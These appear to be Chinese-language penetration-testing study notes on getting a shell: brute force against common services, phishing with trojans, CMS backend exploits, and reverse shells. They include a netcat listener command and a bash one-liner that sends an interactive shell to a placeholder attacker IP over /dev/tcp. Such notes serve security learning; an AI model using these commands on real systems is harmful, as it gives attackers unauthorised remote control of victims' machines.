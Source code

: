 
**系统层getcmdshell**

* 暴力破解

* 针对常规协议：SSH、Telnet、RDP、SMB、VPC、Redis等中间件类

* 通过**数据库执行语句**获得系统shell，就获取权限而言，比SQL注入更为直接

* 可尝试在**设备层**上进行突破，比如VPN、防火墙


**钓鱼getcmdshell**

- 通过发送钓鱼邮件、捆绑的马，访问即加载方式、点击即执行类的马。在生活中这一类十分常见，通常会以邮件形式发送，这类攻击一般会**结合社工**，可信度大大加强。


**cms后台getshell**

- cms(内容管理系统)，可以将第三方信息来源，比如文本文件、HTML网页、Web服务、关系数据库等内容抓取，并经分析处理后放到自身的内容库中。对于此类例子，网上有大量的资料，比如DedeCMS V5.7 SP2后台存在代码执行漏洞，攻击者可以利用该漏洞在增加新的标签中上传木马，获取webshell。

## 反弹shell

> https://www.revshells.com/   反弹shell命令生成攻击，不用自己写了

由于webshell是非交互式shell，有些命令无法执行，通常要反弹一个交互式的shell。提权必须要得到一个交互式的shell。

**如果目标机器不出网，内网渗透代理和端口转发**

### Linux反弹shell

- msf 生成木马上传到靶机执行反弹shell，生成一个elf文件。

**攻击机监听：**

- 用来在我们本地监听反弹来的shell

- 使用nc监听端口：`nc -lvvp [攻击机port]`
    - 未加参数n时，使用nc监听端口反弹shell时都会有一个警告：[port]: inverse host lookup failed: Unknown host。根据nc帮助文档的提示加上-n参数即不产生这个警告，-n参数代表在建立连接之前不对主机进行dns解析。


使用whereis命令可以确定目标支持的反弹方法。`whereis nc bash python php exec lua perl ruby java`

**bash反弹**

* 靶机运行命令：`bash -i > /dev/tcp/攻击机ip/攻击机port 0>&1 2>&1`

* ![image-20220810162714717](漏洞探测和利用.assets/image-20220810162714717.png)
